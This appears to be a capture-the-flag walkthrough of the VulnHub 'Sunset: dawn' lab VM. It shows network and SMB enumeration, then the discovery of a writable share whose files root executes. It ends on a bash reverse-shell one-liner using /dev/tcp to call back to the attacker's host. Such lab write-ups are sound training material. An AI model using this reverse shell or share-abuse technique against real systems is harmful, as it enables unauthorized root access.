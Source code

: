 # Sunset: dawn

## 1.GET VM IP

```bash
root@kali: arp-scan -I eth0 -l

Interface: eth0, type: EN10MB, MAC: 08:00:27:b2:e9:3f, IPv4: 192.168.56.102
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1    0a:00:27:00:00:0f       (Unknown: locally administered)
192.168.56.100  08:00:27:1d:88:c4       PCS Systemtechnik GmbH
192.168.56.122  08:00:27:e7:ae:cd       PCS Systemtechnik GmbH
```

The IP address is `192.168.56.122`, let's scan it.

## 2.Enumeration

```bash
root@kali: nmap -p80,139,445,3306 -sC -sV -oN nmap.out 192.168.56.122

PORT     STATE SERVICE     VERSION
80/tcp   open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL 5.5.5-10.3.15-MariaDB-1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.15-MariaDB-1
|   Thread ID: 12
|   Capabilities flags: 63486
|   Some Capabilities: SupportsCompression, Support41Auth, SupportsTransactions, IgnoreSigpipes, FoundRows, LongColumnFlag, Speaks41ProtocolOld, InteractiveClient, ConnectWithDatabase, Speaks41ProtocolNew, SupportsLoadDataLocal, ODBCClient, IgnoreSpaceBeforeParenthesis, DontAllowDatabaseTableColumn, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults|   Status: Autocommit
|   Salt: 5%[xm:vf}aPJc2nWF7$L
|_  Auth Plugin Name: mysql_native_password
MAC Address: 08:00:27:E7:AE:CD (Oracle VirtualBox virtual NIC)
Service Info: Host: DAWN

Host script results:
| smb2-time: 
|   date: 2024-02-20T07:44:44
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: dawn
|   NetBIOS computer name: DAWN\x00
|   Domain name: dawn
|   FQDN: dawn.dawn
|_  System time: 2024-02-20T02:44:44-05:00
|_clock-skew: mean: 1h39m57s, deviation: 2h53m12s, median: -2s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: DAWN, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
```

Checking on port 80 had nothing interesting, i started fuzzing and found these :

```bash
root@kali: gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.56.122

===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/logs                 (Status: 301) [Size: 315] [--> http://192.168.56.122/logs/]
/cctv                 (Status: 301) [Size: 315] [--> http://192.168.56.122/cctv/]
```

on `/logs` we see some system log files but only management.log is accessible :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/c4d80524-cc60-4922-86e8-f95b3a03b4c6)


on this log there is nothing but some internal path like :

- /home/dawn/ITDEPT/product-control
- /home/dawn/ITDEPT/product-control
- /home/ganimedes/phobos

we can infere from these paths that there are two users on the system so far :

- dawn
- ganimedes

after that i looked at port 445/139 to find any available share on the system :

```bash
root@kali: smbclient -L 192.168.56.122
Password for [WORKGROUP\root]:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        ITDEPT          Disk      PLEASE DO NOT REMOVE THIS SHARE. IN CASE YOU ARE NOT AUTHORIZED TO USE THIS SYSTEM LEAVE IMMEADIATELY.
        IPC$            IPC       IPC Service (Samba 4.9.5-Debian)
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            DAWN
```


and yes there is `ITDEPT` here, so let's check the content :

```bash
root@kali: smbclient --no-pass //192.168.56.122/ITDEPT
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Feb 20 04:09:04 2024
  ..                                  D        0  Fri Aug  2 23:21:39 2019

                7158264 blocks of size 1024. 2803624 blocks available
smb: \>
```

there is nothing here but if we check the permission on this share :

```bash
root@kali: smbmap -H 192.168.56.122
[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)                                
                                                                                                    
[+] IP: 192.168.56.122:445      Name: 192.168.56.122            Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        ITDEPT                                                  READ, WRITE     PLEASE DO NOT REMOVE THIS SHARE. IN CASE YOU ARE NOT AUTHORIZED TO USE THIS SYSTEM LEAVE IMMEADIATELY.
        IPC$                                                    NO ACCESS       IPC Service (Samba 4.9.5-Debian)
```

we see that we have READ and WRITE permission.

so i just put a random file in it using smbclient and checked the `management.log`, if you upload any thing on this folder these lines of logs are generated :

```text
2024/02/20 04:12:01 [31;1mCMD: UID=0    PID=3283   | /bin/sh -c chmod 777 /home/dawn/ITDEPT/product-control [0m
2024/02/20 04:12:01 [31;1mCMD: UID=0    PID=3282   | /bin/sh -c /home/ganimedes/phobos [0m
2024/02/20 04:12:01 [31;1mCMD: UID=0    PID=3281   | /bin/sh -c chmod 777 /home/dawn/ITDEPT/web-control [0m
2024/02/20 04:12:01 [31;1mCMD: UID=0    PID=3288   | /bin/sh -c chmod 777 /home/dawn/ITDEPT/web-control [0m
2024/02/20 04:12:01 [31;1mCMD: UID=0    PID=3287   | /bin/sh -c chmod 777 /home/dawn/ITDEPT/product-control [0m
```
meaning that the system tries to execute files `web-control` and `product-control` using `sh`

## 3.Privilege Escalation

Let's make a file called `web-control` and put a reverse shell in it

```bash
#!/bin/bash

bash -i >& /dev/tcp/192.168.56.102/4444 0>&1
```
